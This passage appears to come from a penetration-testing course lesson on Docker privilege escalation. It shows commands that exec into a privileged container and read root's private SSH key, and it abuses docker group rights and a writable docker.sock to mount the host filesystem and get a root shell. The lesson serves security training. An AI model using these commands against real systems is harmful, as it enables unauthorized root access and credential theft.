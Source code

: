 CONTAINER ID     IMAGE         COMMAND                 CREATED           STATUS           PORTS     NAMES
7ae3bcc818af     main_app      "/docker-entry.s..."    12 seconds ago    Up 8 seconds     443/tcp   app
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago        Up 17 minutes    443/tcp   app
&lt;SNIP&gt;
</code></pre>
<p>Now, we can log in to the new privileged Docker container with the ID <code>7ae3bcc818af</code> and navigate to the <code>/hostsystem</code>.</p>
<pre><code class="language-shell-session">htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash


root@7ae3bcc818af:~# cat /hostsystem/root/.ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
&lt;SNIP&gt;
</code></pre>
<p>From there, we can again try to grab the private SSH key and log in as root or as any other user on the system with a private SSH key in its folder.</p>
<h4>Docker Group</h4>
<p>To gain root privileges through Docker, the user we are logged in with must be in the <code>docker</code> group. This allows him to use and control the Docker daemon.</p>
<pre><code class="language-shell-session">docker-user@nix02:~$ id

uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)
</code></pre>
<p>Alternatively, Docker may have SUID set, or we are in the Sudoers file, which permits us to run <code>docker</code> as root. All three options allow us to work with Docker to escalate our privileges.</p>
<p>Most hosts have a direct internet connection because the base images and containers must be downloaded. However, many hosts may be disconnected from the internet at night and outside working hours for security reasons. However, if these hosts are located in a network where, for example, a web server has to pass through, it can still be reached.</p>
<p>To see which images exist and which we can access, we can use the following command:</p>
<pre><code class="language-shell-session">docker-user@nix02:~$ docker image ls

REPOSITORY                           TAG                 IMAGE ID       CREATED         SIZE
ubuntu                               20.04               20fffa419e3a   2 days ago    72.8MB
</code></pre>
<h4>Docker Socket</h4>
<p>A case that can also occur is when the Docker socket is writable. Usually, this socket is located in <code>/var/run/docker.sock</code>. However, the location can understandably be different. Because basically, this can only be written by the root or docker group. If we act as a user, not in one of these two groups, and the Docker socket still has the privileges to be writable, then we can still use this case to escalate our privileges.</p>
<pre><code class="language-shell-session">docker-user@nix02:~$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash

root@ubuntu:~# ls -l

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -&gt; usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -&gt; usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -&gt; usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -&gt; usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -&gt; usr/libx32
drwx------   2 root root 16384 Oct  6  2021 lost+found
drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   2 root root  4096 Apr 23  2020 opt